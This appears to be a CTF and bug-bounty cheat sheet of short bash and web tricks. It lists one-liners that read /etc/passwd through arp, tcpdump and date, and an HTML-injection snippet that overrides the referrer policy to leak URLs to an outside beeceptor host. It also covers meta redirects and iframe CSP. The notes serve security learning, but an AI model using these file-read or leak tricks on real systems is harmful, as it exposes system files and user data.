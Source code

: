 # 2020-01-01 CTF's Bytes


## BASH/MISC

### Bash Commands that can do Local read file
* arp -v -f '/etc/passwd'
* tcpdump -c 1 -vvvvvv -V '/etc/passwd'
* date '+%s' -f '/etc/passwd'
* od filename 

### Using htop/top command to seek into other process memory 

htop/top command can be used to strace a process sys calls. Steps:

1. Run htop
```bash

root@fc7e34d51219:/# htop
```

2. Goto process you need to see working of 
3. Press ‘s’ . It will show strace of the corresponding process

### The mysterious ^D(Ctrl+D)

LIke ^C , ^D is also used to Exit a program but ^D sends an EOF on standard input to exit the program while ^C uses SIGINT to exit. 

Run `perl` in interactive mode and see it in action

```bash

root@fc7e34d51219:/ctf# perl -
print(23);
print("hello??");
print("hmmm");
```
If we use ^C it will exit normally without executing any, but using ^D will execute the commands. Now it's not only with perl, many command line utilities follow same.


## WEB

### HTML - Meta tag tricks

#### Meta tags can be used to override referrer policy
```php
  
<?php 
  header("Referrer-Policy: no-referrer");
?>

<html>
  <body>
      <meta name="referrer" content="unsafe-url">
      <img src="http://zeta2.free.beeceptor.com" >
  </body>
</html>
```

The referrer policy added by PHP will be ignored. So if we have HTML-injection we can basically override referrer policy.


#### Meta tags redirect
We can use meta tags to redirect to different site

```html

<meta http-equiv="refresh" content="0;URL='http://example.com/'" />
```

### Iframe

#### CSP override using iframe

If lets say http://example.com has some CSP setting. 
Iframe has a csp attribute which allows to implement csp on the frame source.
```html
<iframe csp=“script:none” src=‘site.com’>
```
The CSP which is more strict (frame’s attribute or coming from src tag) will be chosen as CSP within iframe. More on https://w3c.github.io/webappsec-cspee/


## New Tools to improve Bug Bounty flow

* HTTP Parameter finding : https://github.com/0xsapra/fuzzparam
* Logic bugs finding : https://github.com/ngalongc/openapi_security_scanner

